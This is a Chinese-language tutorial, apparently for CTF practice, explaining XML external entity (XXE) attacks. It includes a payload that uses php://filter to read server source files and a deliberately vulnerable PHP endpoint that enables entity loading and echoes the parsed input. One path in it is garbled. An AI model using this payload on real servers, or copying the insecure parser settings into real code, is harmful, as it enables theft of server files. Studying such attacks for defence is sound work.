 
​					

## 													XML实体类攻击(XXE)

我们都知道XML脚本用于在web端与端间存储与传输数据,  并且其对DTD的引用分为外部实体类与内部实体类等.

一般地，对于XML脚本，我们有如下典型元素:

```xml-dtd
<?xml version="1.0" ?>
<!DOCTYPE root [
  <!ELEMENT root (user, password,email)>
<!ELEMENT user (#PCDATA)>
<!ELEMENT password (#PCDATA)>
<!ELEMENT email (#PCDATA)>
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=../../../index.php">
<!ENTITY e "???">
]>
<root>
  <!--external entity-->
  <user>&xxe;</user>
  <password>mypass&quot;</password>
  <!--enternal entity-->
  <email>&e;</email>
</root>
<!--payload.xml-->
```

由DOM的知识可知，我们使用PHP或者JAVASCIRPT脚本去将XML脚本解析为树形DOM, 其叶子节点即为元素中的值，并在浏览器或者终端回显出某些特定的值。

以上述脚本为例, 假如我们需要回显标签为email的元素, 我们可以在浏览器的控制台写出如下代码:

```javascript
if (window.XMLHttpRequest) {
  // code for IE7+, Firefox, Chrome, Opera, Safari
  xmlhttp = new XMLHttpRequest();
} else {
  // code for IE6, IE5
  xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
}
xmlhttp.open("GET", "payload.xml", false);
xmlhttp.send();
xmlDoc = xmlhttp.responseXML;

//获取email 标签下的内部实体类
xmlDoc.getElementsByTagName("email")[0].childNodes[0].nodeValue;
// parse.js
```

其中, 以&xxe为例的外部实体类结合php伪协议, 我们可以泄露一些服务器内的文件.

但是我们惊喜地发现, javascript是无法解析php的外部实体类的.

所以在考虑文件泄露时, 我们只能利用后端代码, 如php, java等.

考虑服务器端代码:

```php
<?php
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

/*将xml格式的payload当作通过POST协议, 作为字符串传给xmlfile*/
$dom = new DOMDocument();
/*将xml字符串解析为数组*/
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$creds = simplexml_import_dom($dom);
/*查看外部实体类, 泄露flag*/
var_dump($creds);
?>
```

其中, file_get_contents(“php://input”)语句用于将客户端POST参数直接打成字符串并回显.

很显然, 这是一个可以解析我们注入的XML并回显特定信息的代码段.

我们构造payload，在DTD特定的位置插入php://road/flat.txt, 查看回显即可.
